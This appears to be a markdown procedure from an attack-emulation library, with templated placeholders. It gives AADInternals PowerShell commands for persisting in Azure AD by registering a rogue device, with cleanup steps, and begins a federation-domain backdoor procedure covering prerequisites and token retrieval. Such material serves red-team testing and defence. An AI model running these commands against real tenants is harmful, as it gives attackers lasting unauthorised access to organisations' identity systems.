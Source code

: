 ## Persistence in Azure AD - Register a New Device

Register a new device in Azure AD

### Prerequisites

- Azure AD credentials
- AAD Internals PowerShell module (https://aadinternals.com/aadinternals/#installation)
  - Install: `PS> install-module aadinternals -scope currentuser`
  - Import: `PS> import-module aadinternals`

### Guidance

Authenticate to Azure AD and save the token

```
PS> Get-AADIntAccessTokenForAADJoin -SaveToCache
```

Register a device: 

```
PS> Join-AADIntDeviceToAzureAD -DeviceName "{{ device_name }}" -DeviceType "{{ device_type }}" -OSVersion "{{ os_version }}" -JoinType Register
```

  - This will save a `.pfx` certificate to the current working directory, which is needed for cleanup
  - Note: The provided values do not need to refer to real characteristics

### Cleanup

Remove the device from Azure AD 

```
PS> Remove-AADIntDeviceFromAzureAD -PfxFileName {{ pfx_certificate_file }}
```

## Azure AD Domain Federation - Backdoor via AADInternals

Use AADInternals to create a backdoor federation domain for persisting access to an environment.

### Prerequisites

- Permissions to modify domain authentication settings
  - and an access token for the user with these permissions, referred to as `$at` in example commands. To retrieve a token, use `$at=Get-AADIntAccessTokenForAADGraph -Credentials (get-credential)` and proceed through the prompts
- AADInternals installed
  - `Install-Module AADInternals`
- A target verified domain in Azure AD
  - To add a domain, Go to Azure AD -> custom domain names -> add -> set the provided DNS records for your domain -> wait for the verification to compelete
- A user with an immutable ID set
  - To set an immutable ID for a user: `Set-AADIntUser -UserPrincipalName {{ upn_or_email }} -ImmutableId "{{ id }}" -AccessToken $at` where the `id` is an arbitrary unnique value
